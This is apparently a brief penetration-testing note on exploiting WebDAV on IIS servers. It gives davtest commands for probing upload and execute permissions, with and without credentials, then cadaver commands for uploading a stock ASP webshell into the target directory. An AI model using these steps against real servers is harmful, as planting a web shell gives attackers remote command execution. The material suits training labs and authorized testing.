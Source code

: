 # WebDAV Exploitation

---

WebDAV is a protocol used in IIS Windows http servers which allows files to get
downloaded from this directory and modify and delete files.

A tool for this is davtest, it shows what kind of files we can execute and upload.

davtest -url http://<target_ip>/webdav/

Authorized Access

davtest -auth bob:password http://<target_ip>/webdav/

The next step would be to use the cadaver tool, it will help to actually download, delete
edit and upload files into the directory.

cadaver --help shows syntax

cadaver http://<target_ip>/webdav/

ls -la /usr/share/webshells/asp/

--> go to cadaver --> put /usr/share/webshells/asp/webshell.asp

